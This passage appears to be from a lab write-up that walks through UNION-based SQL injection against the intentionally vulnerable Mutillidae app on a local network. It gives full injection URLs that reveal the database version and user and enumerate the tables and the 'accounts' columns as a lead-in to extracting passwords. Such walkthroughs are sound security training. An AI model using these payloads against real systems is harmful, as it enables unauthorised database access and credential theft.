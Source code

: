 ![exp8_22](https://github.com/Skanthasishanth/sqlinjection/assets/118298456/460a3daf-a57b-4266-832f-a131b406db98)


Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details


![exp8_23](https://github.com/Skanthasishanth/sqlinjection/assets/118298456/e4caecae-a200-4288-801e-87a87b4d18e2)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![exp8_24](https://github.com/Skanthasishanth/sqlinjection/assets/118298456/874c9e63-693b-4ba0-a927-5bb5d9998653)


The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.



![exp8_25](https://github.com/Skanthasishanth/sqlinjection/assets/118298456/0f411c27-3c6c-4ac5-b10d-5af18ceb763f)


The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 


![exp8_26](https://github.com/Skanthasishanth/sqlinjection/assets/118298456/f19bb4e8-1b1a-4732-9cfb-3822d1f2fdd2)



Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.
